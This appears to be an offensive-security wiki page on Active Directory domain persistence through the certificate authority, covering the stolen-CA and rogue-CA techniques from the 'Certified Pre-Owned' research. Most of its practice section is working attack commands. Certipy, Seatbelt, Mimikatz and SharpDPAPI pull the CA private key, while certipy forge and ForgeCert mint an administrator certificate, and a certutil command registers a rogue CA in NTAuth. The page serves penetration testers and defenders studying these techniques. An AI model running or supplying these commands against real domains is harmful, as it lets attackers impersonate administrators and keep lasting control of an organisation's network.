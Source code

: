 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# Certificate authority

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) identified 2 domain persistence techniques relying on the role of the Certificate Authority within a PKI.

* Forging certificates with a stolen CA certificates (DPERSIST1)
* Trusting rogue CA certificates (DPERSIST2)

## Practice

### Stolen CA

> The Enterprise CA has a certificate and associated private key that exist on the CA server itself. ([Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf))

If an attacker obtains control over a CA server, he may be able to retrieve the private key associated with the CA cert, and use that private key to generate and sign client certificates. This means he could forge (and sign) certificate to authenticate as a powerful user for example.

::: tabs

=== UNIX-like

Extracting the DPAPI-protected CA cert private key can be done remotely from UNIX-like systems with [Certipy](https://github.com/ly4k/Certipy) (Python).


```bash
certipy ca -backup -ca "CA" -username "USER@domain.local" -password "PASSWORD" -dc-ip "DC-IP"
```


Then, forging (and signing) a certificate can be done as follows.


```bash
certipy forge -ca-pfx "CA.pfx" -upn "administrator@corp.local" -subject "CN=Administrator,CN=Users,DC=CORP,DC=LOCAL"
```


The certificate can then be used with [Pass the Certificate](../../movement/kerberos/pass-the-certificate.md).


=== Windows

Extracting the DPAPI-protected CA cert private key can be done remotely with [Seatbelt](https://github.com/GhostPack/Seatbelt) (C#).

```powershell
Seatbelt.exe Certificates -computername="ca.domain.local"
```

Alternatively, the builtin `certsrv.msc` utility can be used locally on the CA server.


```
Win+R > certsrv.msc > CA > right click > All Tasks > Back up CA... > selet "Private key and CA certificate" > Next
```


Alternatively, [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for that purpose, locally.

```powershell
mimikatz.exe "crypto::capi" "crypto::cng" "crypto::certificates /export"
```

Alternatively, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used for that purpose, locally, along with [openssl](https://www.openssl.org/) to transform the PEM into a usable PFX.

```powershell
SharpDPAPI.exe certificates /machine
```


```bash
openssl pkcs12 -in "ca.pem" -keyex -CSP "Microsoft Enhanced
Cryptographic Provider v1.0" -export -out "ca.pfx"
```


Then, forging and signing a certificate can be done with [ForgeCert](https://github.com/GhostPack/ForgeCert) (C#).


```powershell
ForgeCert.exe --CaCertPath "ca.pfx" --CaCertPassword "Password" --Subject "CN=User" --SubjectAltName "administrator@domain.local" --NewCertPath "administrator.pfx" --NewCertPassword "Password"
```


:::


### Rogue CA

> [!WARNING]
> > it is usually preferable for an attacker to steal the existing CA certificate instead of installing an additional rogue CA certificate ([Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf))

An attacker with sufficient privileges in the domain can setup a rogue CA and make the domain's resources trust it. Once the rogue CA is trusted, the attacker can forge and sign client certificates.

In order to register the rogue CA, the self-signed CA cert must be added to the `NTAuthCertificates` object's `cacertificate` attribute, and in the `RootCA` directory services store.

Registering the rogue CA can be done remotely with the `certutil.exe` utility from Windows systems.

```batch
certutil.exe -dspublish -f "C:\Temp\CERT.crt" NTAuthCA
```

Once this is done, a certificate can be forged, signed and used as explained above: [#stolen-ca](certificate-authority.md#stolen-ca)

## Resources

[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
